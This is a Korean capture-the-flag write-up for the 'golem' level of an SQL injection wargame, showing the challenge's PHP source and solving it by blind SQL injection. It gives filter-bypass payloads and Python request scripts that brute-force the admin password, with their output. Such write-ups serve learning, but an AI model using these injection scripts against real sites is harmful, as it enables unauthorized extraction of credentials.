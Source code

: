 # orge

## 1. Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- `or`, `and`, `substr(`, `=`을 필터링 한다.
- admin의 정확한 pw를 알아야 한다.

## 3. Solution
python 스크립트를 이용해 blind-sqlinjection 한다.

a. pw의 길이
b. pw의 값


### a. Length of pw
변수명 | 값
---|---:
`pw` | 1234' || id like 'admin' && length(pw) like `i` #


필터링 중인 연산자는 기호로 우회하였다.
'Hello admin'을 찾아가며 논리식을 검증한다.


이후, 비교값 `i`는 반복문을 통해 적당값(ex. 1~20)을 넣어준다.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php?\
            pw=1234' || id like 'admin' %%26%%26 length(pw) like %d %%23" % i
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
```
---


### b. Value of pw

변수명 | 값
---|---:
`pw` | 1234' || id like 'admin' && ascii(mid(pw,i,1)) like j #


a. Length of pw 의 코드에 추가해 보자.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php?\
            pw=1234' || id like 'admin' %%26%%26 length(pw) like %d %%23" % i
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break

pw_value = ""
for i in range(pw_len):
    for j in range(33,127):
        url = "https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php?\
                pw=1234' || id like 'admin' %%26%%26 ascii(mid(pw,%d,1)) like %d %%23" % (i+1, j)
        res = requests.get(url, cookies=cookie)

        if "Hello admin" in res.text:
            pw_value += chr(j)
            print("pw(%d) : %s" % (i+1, pw_value))
            break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
pw(1) : 7
pw(2) : 77
pw(3) : 77d
pw(4) : 77d6
pw(5) : 77d62
pw(6) : 77d629
pw(7) : 77d6290
pw(8) : 77d6290b
```
---



나온 pw 값을 최종적으로 대입해 보면 문제가 해결된다.

변수명 | 값
---|---:
`pw` | 77d6290b